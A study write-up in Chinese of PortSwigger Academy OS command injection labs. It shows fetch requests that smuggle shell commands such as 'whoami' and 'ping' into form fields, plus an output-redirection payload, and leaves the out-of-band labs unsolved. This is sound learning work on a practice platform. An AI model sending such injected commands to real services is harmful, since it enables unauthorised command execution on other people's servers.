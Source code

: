 ```yaml
---
title: PortSwigger OS command injection
description: PortSwigger OS command injection
last_update:
  date: "2025-08-29T08:00:00+08:00"
---
```


## 前言

這塊感覺是我很弱的一個領域，因為我其實對 OS command 沒有很熟悉

## Lab: OS command injection, simple case

| Dimension | Description                                                                     |
| --------- | ------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/os-command-injection#injecting-os-commands |
| Lab       | https://portswigger.net/web-security/os-command-injection/lab-simple            |

嘗試

```js
fetch(`${location.origin}/product/stock`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: `productId=${encodeURIComponent(`1 & echo whoami &`)}&storeId=1`,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

結果

```
sh: 1: 1: not found
/home/peter-xjFXca/stockreport.sh: line 5: $2: unbound variable
```

## Useful Commands

https://portswigger.net/web-security/os-command-injection#useful-commands

## Lab: Blind OS command injection with time delays

| Dimension | Description                                                                                                      |
| --------- | ---------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/os-command-injection#detecting-blind-os-command-injection-using-time-delays |
| Lab       | https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays                                  |

Submit Feedback 有四個欄位，一一嘗試，最後在 Email 欄位成功注入

```js
fetch(
  "https://0ab5003d0384976783d7877800ec00b5.web-security-academy.net/feedback/submit",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `csrf=Xy0bXtNRAf5VjmXzRbakwTedvYsJXjku&name=123&email=${encodeURIComponent(`& ping -c 10 127.0.0.1 &`)}&subject=123&message=123`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

## Lab: Blind OS command injection with output redirection

| Dimension | Description                                                                                                           |
| --------- | --------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/os-command-injection#exploiting-blind-os-command-injection-by-redirecting-output |
| Lab       | https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection                                |

先嘗試

```js
fetch(`${location.origin}/feedback/submit`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: `csrf=02NO2AVme1exgRgZnEWVTK9MruR7ZKmw&name=123&email=${encodeURIComponent(`& whoami > /var/www/images/whoami.txt &`)}&subject=123&message=123`,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

之後訪問 `https://0ac5001b0488aee08068675300bd00b4.web-security-academy.net/image?filename=whoami.txt`

## Lab: Blind OS command injection with out-of-band interaction

| Dimension | Description                                                                                                                       |
| --------- | --------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/os-command-injection#exploiting-blind-os-command-injection-using-out-of-band-oast-techniques |
| Lab       | https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band                                                   |

<!-- todo-yusheng -->

這題需要 Burp Suite Professional，之後再來解～

## Lab: Blind OS command injection with out-of-band data exfiltration

| Dimension | Description                                                                                                                       |
| --------- | --------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/os-command-injection#exploiting-blind-os-command-injection-using-out-of-band-oast-techniques |
| Lab       | https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration                                 |

<!-- todo-yusheng -->

這題需要 Burp Suite Professional，之後再來解～

## Ways of injecting OS commands

https://portswigger.net/web-security/os-command-injection#ways-of-injecting-os-commands

## 小結

Lab 題目超少，一下子就解完，只要跟 out-of-band 相關的題目，就要 Burp Suite Professional 才能解 QQ

## 參考資料

- https://portswigger.net/web-security/os-command-injection
